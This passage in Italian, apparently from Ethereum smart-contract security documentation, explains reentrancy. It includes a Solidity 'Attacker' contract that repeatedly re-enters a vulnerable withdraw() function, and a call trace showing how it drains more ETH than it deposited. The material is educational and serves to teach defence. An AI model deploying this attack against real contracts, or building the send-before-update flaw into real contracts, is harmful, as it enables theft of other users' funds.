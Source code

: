 Per consentire a un utente di prelevare gli ETH precedentemente archiviati nel contratto, questa funzione

1. Legge il saldo dell'utente
2. Gli invia l'importo del saldo in ETH
3. Imposta il saldo a 0, in modo che non sia possibile prelevarlo nuovamente.

Se chiamato da un account standard (ad esempio un account MetaMask), questo codice funziona come previsto: msg.sender.call.value() invia semplicemente il saldo ETH. Però anche gli Smart Contract possono effettuare chiamate. Se quindi è un contratto maligno modificato a chiamare `withdraw()`, msg.sender.call.value() non invierà solo `amount` (l'importo) di ETH, ma chiamerà anche implicitamente il contratto per iniziare l'esecuzione del codice. Immagina che a chiamare sia questo contratto maligno:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Chiamando Attacker.beginAttack() si avvierà un ciclo del tipo:

```
0.) EOA di Attacker chiama Attacker.beginAttack() con 1 ETH
0.) Attacker.beginAttack() deposita 1 ETH in Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victim invia ETH a Attacker (che esegue la funzione default)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victim invia ETH a Attacker (che esegue la funzione default)
    3.) Attacker -> Victim.withdraw()
    3.) Victim reads balances[msg.sender]
      3.) Victim invia ETH a Attacker (che esegue la funzione default)
    4.) Attacker non ha abbastanza carburante, restituisce il risultato senza chiamare di nuovo
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (era già 0)
  1.) balances[msg.sender] = 0; (era già 0)
```

Chiamando Attacker.beginAttack con 1 ETH si attacca Victim con codice rientrante, prelevando più ETH rispetto alla disponibilità (prendendoli dai saldi di altri utenti e rendendo il contratto Victim non collateralizzato)

### Come gestire il codice rientrante (in modo sbagliato) {#how-to-deal-with-re-entrancy-the-wrong-way}
